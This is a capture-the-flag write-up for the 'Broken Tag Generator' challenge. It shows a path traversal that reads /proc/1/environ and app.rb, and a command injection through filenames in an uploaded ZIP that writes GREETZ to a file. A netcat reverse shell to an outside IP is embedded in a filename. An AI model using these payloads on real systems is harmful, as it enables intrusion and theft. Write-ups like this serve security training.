 # Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!<br/>
    The tag generator is acting up.<br/>
    I feel like the issue has something to do with weird files being uploaded.<br/>
    Can you help me figure out what's wrong?<br/>


## Hints

??? hint "Patience and Timing"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a [reverse shell](./o8.md#reverse-shell). We'll explore both options! :smile:


### Short solution

Start by analyzing the [`app.js`](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint with `id` being a randomly generated value that identifies the image (line 7). 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('<img id="dynamic">');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:

![Short solution](../img/objectives/o8/solution_short.png)


### Longer solution

An HTTP request using an invalid `id` will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.

![HTTP request error](../img/objectives/o8/raw_response.png)

!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test”
    cannot be displayed because it contains errors.
    ```

We can leverage the same [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) as before by issuing a request to `https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb` to download [`app.rb`](../artifacts/objectives/o8/app.rb). Reviewing the code, we can see that the web application uses a `system()` call to resize the uploaded image to a specific size (line 7). Because the backend Ruby code does not filter the `filename` variable used as input to the `system()` call, we can leverage this [command injection](https://owasp.org/www-community/attacks/Command_Injection) vulnerability to execute our own code.

```ruby linenums="1" hl_lines="7"
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Structuring the filename of the uploaded file as `myfile';command_to_run;ls '.png` will split the single `convert` command into 3 separate shell commands, nudging whatever we want to run neatly in the middle:

+ `convert -resize 800x600\\> -quality 75 'myfile';`
+ `command_to_run;`
+ `ls '.png' '#{ out_path }'`

The `process_file()` function tells us the app allows uploading files with an extension matching either `.jpg`, `.jpeg`, `.png`, or `.zip`. To prevent our uploaded file from being renamed at the server side we can leverage the `handle_zip()` function as it leaves filenames untouched when unpacking an uploaded archive (line 7). Luckily for us, Jack commented out the filename validation code that would've patched this issue (line 2). Thanks, Jack! :thumbsup:

```ruby linenums="1" hl_lines="2 7"
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end

# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"

# Extract to file or directory based on name in the archive
entry.extract(out_file) {
  # If the file exists, simply overwrite
  true
}

# Process it
out_files << process_file(out_file)
```

To retrieve the value of the `GREETZ` environment variable, create an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png`, add it to a [ZIP file](../tools/objectives/o8/GREETZ_payload.zip), and upload it using the tag generator application. The application will unpack the archive, execute our command, and save the output to `/tmp/the_GREETZ_tag.txt` which we can then download using a request to `https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt`. :boom:

![Longer solution](../img/objectives/o8/solution_long.png)

!!! done "Answer"
    JackFrostWasHere

!!! note "Reverse shell<span id="reverse-shell"></span>"
    A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
    
    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.

    ![Reverse shell](../img/objectives/o8/reverse_shell.png)
